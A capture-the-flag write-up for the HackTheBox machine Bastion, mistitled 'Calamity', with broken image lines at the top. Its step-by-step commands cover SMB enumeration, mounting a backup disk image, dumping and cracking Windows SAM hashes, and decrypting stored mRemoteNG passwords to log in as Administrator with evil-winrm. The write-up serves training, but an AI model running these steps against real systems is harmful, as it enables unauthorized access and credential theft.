







# HackTheBox: Calamity Machine Write-Up

## **Machine Description**
Bastion is an Easy-level Windows box that contains a VHD (Virtual Hard Disk) image from which credentials can be extracted. After logging in, the software **mRemoteNG** is found to be installed, which stores passwords insecurely, allowing further credential extraction.

---

## **1. General Information**
- **Machine Name:** Bastion
- **IP Address:** 10.10.10.134

---

## **2. Enumeration**

### **2.1 Initial Port Scan**
Performing an initial scan to check for open ports:
```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.134 -oN allPorts.txt
```
**Scan Results:**
```plaintext
PORT      STATE SERVICE      REASON
22/tcp    open  ssh          syn-ack ttl 127
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
5985/tcp  open  wsman        syn-ack ttl 127
47001/tcp open  winrm        syn-ack ttl 127
49664/tcp open  unknown      syn-ack ttl 127
49665/tcp open  unknown      syn-ack ttl 127
49666/tcp open  unknown      syn-ack ttl 127
49667/tcp open  unknown      syn-ack ttl 127
49668/tcp open  unknown      syn-ack ttl 127
49669/tcp open  unknown      syn-ack ttl 127
49670/tcp open  unknown      syn-ack ttl 127
```

### **2.2 Extracting and Organizing Ports**
```bash
grep '^[0-9]' allPorts.txt | cut -d '/' -f1 | sort -u | xargs | tr ' ' ','
```

### **2.3 Service Version Detection**
Checking the versions of services running on detected ports:
```bash
nmap -sC -sV -p135,139,22,445,47001,49664,49665,49666,49667,49668,49669,49670,5985 10.10.10.134 -oN targeted
```
**Scan Results:**
```plaintext
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664-49670/tcp open  msrpc  Microsoft Windows RPC
```

---

## **3. Exploitation**

### **3.1 Enumerating SMB Service**
Attempting to enumerate SMB shares:
```bash
smbclient -L 10.10.10.134 -N
```


### **3.2 Connecting to SMB Share**
```bash
smbclient //10.10.10.134/Backups -N
```


### **3.3 Mounting the SMB Share**
Creating a mount point and mounting the share:
```bash
mkdir /mnt/smb
mount.cifs //10.10.10.134/Backups /mnt/smb
```

### **3.4 Listing SMB Share Files**


### **3.5 Extracting VHD Files**
Creating a mount point and listing its contents:
```bash
mkdir /mnt/vhd
guestmount -a disk.vhd -i --ro /mnt/vhd/
```

### **3.6 Extracting Windows SAM Database**
Accessing the SAM file:


Extracting hashes:
```bash
LD_LIBRARY_PATH=/usr/lib/openssl-1.0 samdump2 SYSTEM SAM
```


### **3.7 Cracking Hashes**
Using John the Ripper:
```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


### **3.8 Logging in via SSH**
Using obtained credentials:
```bash
ssh L4mpje@10.10.10.134
```

---

## **4. Privilege Escalation**

### **4.1 Checking Privileges**
```plaintext
PRIVILEGES INFORMATION
----------------------
SeChangeNotifyPrivilege       Enabled
SeIncreaseWorkingSetPrivilege Enabled
```

### **4.2 Listing Installed Applications**
Checking for potentially vulnerable software:
```bash
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallDate
```

### **4.3 Identifying mRemoteNG**
mRemoteNG is found to be installed:
```plaintext
DisplayName         : mRemoteNG
DisplayVersion      : 1.76.11.40527
InstallLocation     : C:\Program Files (x86)\mRemoteNG\
```

### **4.4 Extracting Stored Credentials**
Following [this article](https://hackersvanguard.com/mremoteng-insecure-password-storage/) to exploit insecure password storage.

Locating configuration file:
```bash
C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml
```


### **4.5 Decrypting Passwords**
Using a Python script to decrypt stored credentials:
```bash
git clone https://github.com/haseebT/mRemoteNG-Decrypt.git
python3 mremoteng_decrypt.py -s 'encrypted_password_string'
```

### **4.6 Logging in as Administrator**
Using Evil-WinRM to connect with obtained credentials:
```bash
evil-winrm -i 10.10.10.134 -u 'Administrator' -p 'decrypted_password'
```

🎉 **Machine pwned!**
